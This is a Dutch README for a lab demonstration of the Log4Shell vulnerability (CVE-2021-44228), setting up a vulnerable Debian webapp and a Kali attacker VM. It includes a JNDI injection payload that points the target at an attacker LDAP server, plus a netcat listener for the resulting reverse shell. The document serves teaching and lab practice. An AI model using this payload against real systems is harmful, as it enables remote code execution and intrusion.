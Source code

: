 # Log4Shell Demonstratie (CVE-2021-44228)

Deze demo toont hoe de Log4Shell-kwetsbaarheid werkt door een gesplitste omgeving op te zetten met een **target machine (Debian)** en een **attacker machine (Kali Linux)**.

---

## 🖥️ Target VM (Debian)
Bevat de kwetsbare Java-webapp met Log4j 2.14.1.

### Vereisten:
- Debian/Ubuntu
- Java JDK

### Stappen:
```bash
cd CyberSec25/scripts
chmod +x setup_target.sh
./setup_target.sh
```

Bezoek de webapp op: [http://<target-ip>:8080](http://<target-ip>:8080)

---

## ⚔️ Attacker VM (Kali)
Start een LDAP- en HTTP-server om een exploit via JNDI te leveren.

### Vereisten:
- Kali Linux
- Java JDK
- Python3

### Stappen:
```bash
cd CyberSec25/scripts
chmod +x setup_attacker.sh
./setup_attacker.sh
```

Gebruik de volgende payload in het formulier op de target:
```bash
${jndi:ldap://<attacker-ip>:1389/a}
```

De exploit zal een reverse-shell starten vanop de target VM.
Hiervoor moeten we een listener opzetten:
```bash
nc -lvnp 4444
```
---

## 📁 Structuur
```
CyberSec25/
├── exploit/         # Exploit.java
├── ldap/            # LDAPServer.java (UnboundID)
├── webapp/          # Jetty + Log4j kwetsbare app
├── scripts/
│   ├── setup_target.sh
│   └── setup_attacker.sh
├── log4j2.xml
└── test_payload.txt
```

## ⚠️ Disclaimer
Gebruik dit enkel in een veilige testomgeving. De auteur is niet verantwoordelijk voor verkeerd gebruik.
